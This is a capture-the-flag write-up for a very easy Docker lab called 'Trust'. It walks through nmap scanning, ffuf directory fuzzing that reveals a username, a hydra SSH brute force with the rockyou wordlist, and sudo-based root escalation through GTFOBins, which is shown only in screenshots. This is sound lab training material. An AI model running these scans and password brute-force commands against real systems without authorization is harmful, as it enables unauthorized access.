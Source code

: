 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/docker-labs/trust/","tags":["CTF","write-up"]}
---
```



![Pasted image 20241214091106.png|200](/img/user/attachments/Pasted%20image%2020241214091106.png)

---

> [!INFO] Info about Trust
>  Get a root shell
>  Difficulty: Very Easy

> [!FAQ]- Hints
> No Hints.

---
# Active reconnaissance
## Port scan
Perform a quick general scan on all ports.
```shell
sudo nmap TARGET_IP -n -p- -sS -Pn -vvv --open --min-rate 5000 -oN nmap_scan
```

```c
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

---
# Enumeration
Perform a deep scan with common scripts only on ports we are interested in.
```shell
sudo nmap TARGET_IP -sCV -p 22,80 -oN nmap_enum
```
## OS
Linux, Debain
## Port 22 - SSH
tcp open  ssh     **OpenSSH 9.2p1** Debian 2+deb12u2 (protocol 2.0)
## Port 80 - Apache
tcp open  http    **Apache** httpd **2.4.57** ((Debian))
![Pasted image 20241214091920.png](/img/user/attachments/Pasted%20image%2020241214091920.png)
### Fuzz
```shell
ffuf -c -t 100 -u http://<TARGET>/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -mc all -fc 404 -e .php,.html,.txt
```
One interesting subdirectory
![Pasted image 20241214092426.png|700](/img/user/attachments/Pasted%20image%2020241214092426.png)
### secret
![Pasted image 20241214095948.png|500](/img/user/attachments/Pasted%20image%2020241214095948.png)
We can get a username

---
# Exploitation
## SSH Brute force
Using the username found try brute force against *SSH*
```shell
hydra -f -V -t 64 -l mario -P /usr/share/wordlists/rockyou.txt 172.20.0.2 ssh 
```
![Pasted image 20241214095919.png](/img/user/attachments/Pasted%20image%2020241214095919.png)
Login to SSH 

---
# Privilege escalation
Check *sudo -l*, if we can execute some command as *root* user
Indeed, we can.
![Pasted image 20241214100311.png](/img/user/attachments/Pasted%20image%2020241214100311.png)

Use *gtfobins* to leverage it.
![Pasted image 20241214100418.png|400](/img/user/attachments/Pasted%20image%2020241214100418.png)

![Pasted image 20241214100605.png](/img/user/attachments/Pasted%20image%2020241214100605.png)

---
